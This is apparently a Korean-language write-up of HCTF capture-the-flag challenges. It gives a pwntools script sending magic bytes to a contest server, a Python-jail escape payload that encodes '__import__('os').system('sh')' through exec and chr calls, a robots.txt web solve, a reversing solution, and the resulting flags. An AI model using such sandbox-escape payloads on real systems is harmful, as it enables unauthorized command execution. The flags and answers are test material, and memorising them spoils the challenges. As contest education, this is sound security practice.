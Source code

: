 입력 값하고 `\xde\xed\xbe\xef` 이 같으면 플래그 파일을 읽을 수 있다.

```python
from pwn import *

p = remote('prob.hctf.icewall.org',10102)
p.sendlineafter('>> ','\xde\xed\xbe\xef')
p.interactive()
```

**FLAG : `HCTF{beef steak is delicious}`**

<br />

## Python Jail

`python -c` 로 실행시켜주는데 `exec` , `chr` 이 안 막혀있어서 이를 이용해서 풀었다. 아래 페이로드 이용해서 풀었다.

```python
a="__import__('os').system('sh')"
payload = 'exec(' + ''.join('chr('+str(ord(a[i]))+')+' for i in range(len(a)))[:-1] + ')'
```

![](https://user-images.githubusercontent.com/32904385/69047436-7414ed00-0a3e-11ea-99df-5108fe2c5772.png)

**FLAG : `HCTF{getattr_is_very~~~~very~~~~nice!!}`**

<br />

## Take It

힌트가 있길래 딱보면 `robots.txt` 이용해서 푸는거구나 생각하고 들어갔는데 HCTF-FLAG.txt이 있길래 `http://www.nowtakeit.com/HCTF-FLAG.txt` 들어갔는데 플래그가 있었다.

![](https://user-images.githubusercontent.com/32904385/69047552-b9d1b580-0a3e-11ea-8a5c-195d4cda94d1.png)

**FLAG : `HCTF{Congratulations_10000_Points_for_First_Solver!!}`**

<br />

# Reversing

매우 복잡한 그래프이다. 자세히 보면 인덱스의 글자가 맞는지 아닌지 비교해주는 분기들이다. 인덱스의 값들을 잘 맞추면 된다.

![](https://user-images.githubusercontent.com/32904385/69048335-960f6f00-0a40-11ea-8eaf-ef5b4a6a89e8.png)

```python
a=[0]*46
a[23]=97;a[19]=74;a[9]=95;a[22]=95;a[6]=118;a[1]=67;a[26]=95;a[7]=101;a[3]=70
a[2]=84;a[8]=110;a[17]=101;a[44]=116;a[32]=97;a[24]=110;a[43]=105;a[14]=104;a[12]=99
a[10]=103;a[28]=111;a[35]=105;a[29]=117;a[31]=99;a[14]=104;a[12]=99;a[10]=103
a[38]=112;a[39]=101;a[34]=95;a[37]=115;a[25]=100;a[18]=95;a[45]=125;a[21]=84;a[40]=99
a[11]=99;a[16]=118;a[30]=95;a[41]=116;a[13]=95;a[4]=123;a[42]=95;a[5]=101
a[20]=73;a[15]=97;a[0]=72;a[33]=110;a[27]=121;a[36]=110
print ''.join(chr(i) for i in a)
```
